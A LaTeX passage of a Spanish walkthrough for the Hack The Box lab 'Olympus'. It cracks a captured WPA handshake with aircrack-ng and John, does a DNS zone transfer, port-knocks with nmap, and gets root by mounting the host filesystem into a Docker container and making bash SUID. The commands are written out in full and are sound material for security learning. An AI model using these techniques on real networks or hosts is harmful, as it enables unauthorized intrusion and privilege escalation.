Se ve un ESSID que se llama \texttt{To\_cl0se\_to\_th3\_Sun} que parrece turbio, y un handshake que significa que alguien a esperado que una victima se connecte
o reconnecte tras un attaque de deauthentificacion y a recuperado el hash de authentificacion.

Analizando la captura con \textbf{tshark} se ve que a sido un attaque de deauthentificacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r captured.cap }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

o filtrado por deauthentificacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r captured.cap -Y }\StringTok{"wlan.fc.type_subtype==12"}\NormalTok{ -Tfields -e wlan.da }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

\hypertarget{crackeo-con-aircrack-ng}{%
\subsubsection*{Crackeo con Aircrack-ng}\label{crackeo-con-aircrack-ng}}
\addcontentsline{toc}{subsubsection}{Crackeo con Aircrack-ng}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w /usr/share/wordlists/rockyou.txt captrured.cap}
\end{Highlighting}
\end{Shaded}

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequenito que contiene la palabra \emph{icar}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"icar"}\NormalTok{ /usr/share/wordlists/rockyou.txt }\OperatorTok{>}\NormalTok{ dictionary.txt}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w dictionary.txt captured.cap}
\end{Highlighting}
\end{Shaded}

Ya encontramos la contraseña.

\hypertarget{crackeo-con-john}{%
\subsubsection*{Crackeo con John}\label{crackeo-con-john}}
\addcontentsline{toc}{subsubsection}{Crackeo con John}

Extraemos lo que nos interressa del fichero \textbf{captured.cap} en un fichero mas pequenito que se llama Captura.hccap que con la utilidad
\textbf{hccap2john} no permite transformarldo en un hash compatible con \textbf{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -J Captura captured.cap}
\ExtensionTok{hccap2john}\NormalTok{ Captura.hccap }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ -wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

\hypertarget{conneccion-a-la-maquina-victima}{%
\subsection*{Conneccion a la maquina victima}\label{conneccion-a-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Conneccion a la maquina victima}

Ahora que tenemos un usuario potencial y una contraseña, intentamos connectar con ssh al puerto 2222

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ icarus@10.10.10.83}
\end{Highlighting}
\end{Shaded}

Con la contraseña encontrada no nos functionna.
Intentamos con el nombre turbio de esta red inalhambrica como contraseña.

\textbf{Y PA DENTRO}

\hypertarget{investigacion-de-la-maquina-victima}{%
\subsection*{Investigacion de la maquina victima}\label{investigacion-de-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Investigacion de la maquina victima}

Hay un fichero que contiene un nombre de dominio valido \textbf{ctfolympus.htb}

Intentamos poner el nombre del dominio en el \texttt{/etc/hosts} pero la web sigue siendo la misma.

Sabiendo que el puerto 53 esta habierto y teniendo ahora un nombre de dominio valido, podemos
hacer un attacke de transferencia de zona con \textbf{dig}

\hypertarget{attacke-de-transferencia-de-zona-con-dig}{%
\subsubsection*{Attacke de transferencia de zona con dig}\label{attacke-de-transferencia-de-zona-con-dig}}
\addcontentsline{toc}{subsubsection}{Attacke de transferencia de zona con dig}

El tito nos vuelve a decir que es muy importante no confundir la arremienta dig con dick. Dig esta en
la categoria Sciencia y Technologia y la otra en la categoria HotTub ;)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb}
\end{Highlighting}
\end{Shaded}

Como \textbf{dig} nos responde, ya podemos ir enumerando cosas

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Enumerar los mail servers

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb mx}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos un attacke axfr

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb axfr}
\end{Highlighting}
\end{Shaded}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/dig-ctfolympus} \caption{dig ctfolympus.htb}\label{fig:unnamed-chunk-4}
   \end{figure}
\end{enumerate}

Se puede ver que hay un usuario y una contraseña potencial en un TXT con una lista de puertos.
La idea aqui seria de hacer un \textbf{Port Knocking}

\hypertarget{port-knocking}{%
\subsection*{Port Knocking}\label{port-knocking}}
\addcontentsline{toc}{subsection}{Port Knocking}

En este caso la idea seria connectarse al puerto 22 (es una supposicion). El problema es que este puerto esta cerrado.
La idea de la technica de \textbf{Port Knocking} es que si el attackante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[}!{]} NOTAS: El argumento \texttt{-r} es para decir a NMAP de scannear los puertos en este mismo orden
\end{quote}

Lanzando el commando multiples veces, NMAP nos reporta ahora quel puerto 22 esta ya habierto.
Lo que se puede hacer es, de seguida despues del \textbf{Port Knocking} con nmap, lanzar un commando
ssh a la maquina.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r }\KeywordTok{&&} \FunctionTok{ssh}\NormalTok{ prometheus@10.10.10.83}
\end{Highlighting}
\end{Shaded}

Perfecto se nos pregunta por una contraseña \textbf{Y PA DENTRO}

En este momento ya se puede ver la flag \texttt{user.txt} y Podemos passar a la phase de escalacion de privilegios.

\hypertarget{privilege-escalation}{%
\section*{Privilege Escalation}\label{privilege-escalation}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

\hypertarget{escalacion-de-privilegios-con-docker}{%
\subsection*{Escalacion de privilegios con Docker}\label{escalacion-de-privilegios-con-docker}}
\addcontentsline{toc}{subsection}{Escalacion de privilegios con Docker}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkear las imagenes Docker existentes

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ ps}
\end{Highlighting}
\end{Shaded}
\item
  Utilizar una imagen existente para crear un contenedor y \textbf{mountarle} la raiz del systema en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ run --rm -it -v /:/mnt rodhes bash}
\BuiltInTok{cd}\NormalTok{ /mnt/root/}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}
\item
  Escalar privilegios en la maquina real

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina real

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}


% Index?

\end{document}

